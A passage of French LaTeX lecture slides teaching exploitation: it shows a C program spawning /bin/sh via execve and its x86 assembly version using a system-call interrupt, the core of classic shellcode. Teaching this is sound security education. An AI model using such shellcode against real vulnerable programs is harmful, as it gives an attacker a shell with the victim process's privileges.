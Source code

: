 \section{Un peu de code octal}
\begin{frame}[fragile]
  \frametitle{Quel code voudrait on voir s'ex\'ecuter}%
  Prenons maintenant la question sous un autre angle~: quelles
  instructions devrions nous faire ex\'ecuter pour contr\^oler la
  ressource ex\'ecutant le code vuln\'erable~?  Si on dispose d'appels
  syst\`eme, d'un shell et de commandes externes, tout est permis~:
  \begin{verbatim}
#include <stdio.h>
char *name[2] ;
int main(void){ name[0] = "/bin/sh"       ;
                name[1] = NULL            ;
                execve(name[0],name,NULL) ; }
\end{verbatim}
  Dans ce cas, un shell est ouvert \`a l'agresseur qui peut faire ce
  qu'il veut avec les droits du propri\'etaire du code attaqu\'e.
  \par
  Un d\'evermineur permet de voir ce que fait le processeur en
  ex\'ecutant ce code. Mais comme nous ma\^\i{}trisons l'assembleur,
  utilisons le.
\end{frame}
\begin{frame}[fragile]
  \frametitle{Traduction en code assembleur}%
  Le code pr\'ec\'edent s'exprime en assembleur par un appel
  syst\`eme (cod\'e par une interruption plut\^ot qu'un
  \texttt{call execve})~:
\begin{verbatim}
    .text
txt:
     .string "/bin/sh"
     .long txt
     .long 0
.globl _start
_start:
     movl $0xb,%eax    /* num\`ero de l'appel syst\`eme   */
     movl $txt,%ebx    /* nom du programme \`a ex\`ecuter */
     movl $txt+8,%ecx  /* argument du shell               */
     movl %ecx,%edx    /* variables d'environnement       */
     addl $4,%edx    
     int $0x80
done:  
     movl    $0,%ebx  /* Ces instructions permettent de    */ 
     movl    $1,%eax  /* terminer l'ex\'ecution du code    */
     int     $0x80    /* assembleur et sont indispensables */
\end{verbatim}
\end{frame}
